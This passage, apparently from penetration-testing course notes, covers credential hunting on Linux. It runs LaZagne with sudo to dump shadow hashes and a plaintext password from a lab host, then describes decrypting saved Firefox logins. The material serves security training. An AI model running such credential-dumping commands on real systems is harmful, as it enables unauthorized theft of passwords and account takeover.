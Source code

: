 For example, `Keyrings` are used for secure storage and management of passwords on Linux distributions. Passwords are stored encrypted and protected with a master password. It is an OS-based password manager, which we will discuss later in another section. This way, we do not need to remember every single password and can save repeated password entries.

<mark style="color:orange;">**Memory - LaZagne**</mark>

{% code fullWidth="true" %}
```shell-session
cry0l1t3@unixclient:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: sambauser
Hash: $6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI.8negiUSPqaWyv7wC8uwsWPrx1:18862:0:99999:7:::

[+] Password found !!!
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY


[+] 3 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.50091600418
```
{% endcode %}

<mark style="color:orange;">**Browsers**</mark>

Browsers store the passwords saved by the user in an encrypted form locally on the system to be reused. For example, the `Mozilla Firefox` browser stores the credentials encrypted in a hidden folder for the respective user. These often include the associated field names, URLs, and other valuable information.

For example, when we store credentials for a web page in the Firefox browser, they are encrypted and stored in `logins.json` on the system. However, this does not mean that they are safe there. Many employees store such login data in their browser without suspecting that it can easily be decrypted and used against the company.
